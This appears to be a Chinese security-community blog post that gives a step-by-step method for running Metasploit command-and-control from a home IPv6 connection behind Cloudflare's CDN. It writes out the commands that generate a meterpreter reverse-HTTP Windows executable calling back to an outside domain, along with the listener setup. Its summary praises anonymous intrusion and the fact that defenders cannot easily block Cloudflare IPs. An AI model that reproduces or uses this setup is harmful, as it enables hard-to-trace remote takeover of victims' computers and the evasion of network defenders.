

# 使用家用 IPv6 设备来上线接管电脑 - 先知社区

使用家用 IPv6 设备来上线接管电脑

* * *

# 前言介绍

我国也正在积极推广普及 IPv6 技术，个人家庭光猫基本上都是支持 IPv6 的，IPv6 我们可以理解为一个公网 IP，由于 IPv6 资源数量非常庞大，足够保障我们的家庭每个设备都有自己的公网 IPv6 地址，这一切预示着万物互联的时代即将到来，从理论角度来看，利用家用设备的 IPv6 地址来建立 C2 服务器也是可行的。

但是企业内网当中基本上是不可能有公网 IPv6 地址的，没有 IPv6 的话就无法访问到我们的 C2 服务器，这也是本文核心要展开说的地方，话不多说，直接看下文吧。

# 方案草图

整体方案实现其实不难，最主要的就是下面两个知识点：

1.  IPv6 DDNS 解析到指定域名
2.  借助 Coudflare 内部的 CDN 代理将 IPv6 流量转到 IPv4

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173014-16eb9a9c-7c87-1.png)

# 准备工作

总的来说就是下面两个步骤即可：

1.  安装好带 IPv6 地址的 Ubuntu 一台
2.  接入好 Cloudflare 的域名一个

## 检查 IPv6 网络

准备一个没有公网 IPv4 地址，但是存在公网 IPv6 地址的 Ubuntu 系统一个，正常家用的主机基本上是满足上述要求的：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173023-1c7e2e8e-7c87-1.png)

## 安装 Metasploit

MSF 是经典的 C2 工具，其他的 C2 工具基本上线原理仿造一下即可，我们先来手动来安装一下 Metasploit：

```plain
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173114-3ad27638-7c87-1.png)

## 创建 CF 的 API 令牌

为了保持权限最小化原则，我们这里只[创建](https://dash.cloudflare.com/profile/api-tokens)一个修改 itermux 域名的 DNS 权限 API 令牌：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173102-338d6176-7c87-1.png)

## 安装部署 DDNS-GO

DDNS-GO 的官方项目地址为：[https://github.com/jeessy2/ddns-go](https://github.com/jeessy2/ddns-go)

DDNS-GO 的作用是将公网地址解析到各大云厂商的域名上。下载好 DDNS-GO 参考官方文档安装一下即可：

```plain
sudo ./ddns-go -s install
```

接着访问服务器的 9876 端口即可打开 DDNS-GO 的配置页面，首先填写我们的 CF 的 API Token：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173054-2ed4e41a-7c87-1.png)

最后配置一下要 IPv6 对应解析的域名即可：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173513-c96716b0-7c87-1.png)

通过 DDNS-GO 的日志可以看到 msf.itermux.com 域名成功解析到了我们的公网 IPv6 地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173125-418fcf3e-7c87-1.png)

## 配置 Cloudflare

因为当前默认域名解析的是 IPv6 地址，IPv4 设备是无法访问到我们的域名的，为此我们需要手动开启 CF 的代理，借助 CF 将域名转换成 IPv4 也可以访问的 IP 地址：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173141-4b1818b8-7c87-1.png)

然后手动关闭一下 CF 的 SSL 加密：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173147-4eb264a6-7c87-1.png)

## 验证连通性

首先在服务器上借助 Python3 监听应该 IPv6 的 80 端口：

```plain
python3 -m http.server 80 --bind ::
```

然后直接访问我们的 msf.itermux.com 域名测试成功访问：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173203-583ebdf8-7c87-1.png)

# 操作细节

既然上述操作跑通的话，那么下面直接来尝试一下 MSF 上线吧。后续的操作就比较简单常规了，我们很快的来过一下：

## 生成 Payload

我们使用 meterpreter\_reverse\_http的 Payload，HOST 填写我们的 IPv6 地址 DDNS 的域名 msf.itermux.com，端口就填写 80 端口：

```plain
msf6 > use payload/windows/x64/meterpreter_reverse_http
msf6 > set LHOST msf.itermux.com
msf6 > set LPORT 80
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173215-5ef8cc60-7c87-1.png)

然后直接在 msfconsole 控制台里面使用 generate 生成 Windows exe 木马文件：

```plain
msf6 payload(windows/x64/meterpreter_reverse_http) > generate -f exe -o shell.exe
[*] Writing 208384 bytes to shell.exe...
```

## 监听会话

这里监听的细节是 `set LHOST ::` 表示监听本地的 IPv6 地址：

```plain
msf6 > use exploits/multi/handler
msf6 > set payload windows/x64/meterpreter_reverse_http
msf6 > set LHOST ::
msf6 > set LPORT 80
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173240-6e11a280-7c87-1.png)

## 上线效果

运行 shell.exe 后既上线成功，通过 netstat 命令查看，可以看到多个上线的会话连接，这些外连 IP 均为 Cloudflare 的 CDN IP，蓝方防守的话封是封不完，而且不敢封的，因为国内很多大型网站可能也用的是 Cloudflare。

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173231-68e6a030-7c87-1.png)

MSF 的上线记录效果如下，可以看到 CF 的 CDN IPv6 服务器和本地的 IPv6 交互的记录：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231106173250-743ab7b4-7c87-1.png)

# 方案总结

1.  以后上线别人的话，不用买云服务器了，连接 SIM 热点或者直接使用家用光猫有 IPv6 地址就行
2.  IPv6 还在普及中，监管方面也比较弱，且 IPv6 也是动态的，很灵活
3.  Cloudflare 的 CDN 外连 IP 蓝方不敢轻易封禁，因为国内很多大厂也用的 Cloudflare 的 CDN
4.  Cloudflare 的 CDN 是多种多样的，封一个两个也封不完的
5.  Cloudflare 的域名接入也不需要实名操作，理论上是可以做到完全匿名的渗透上线的
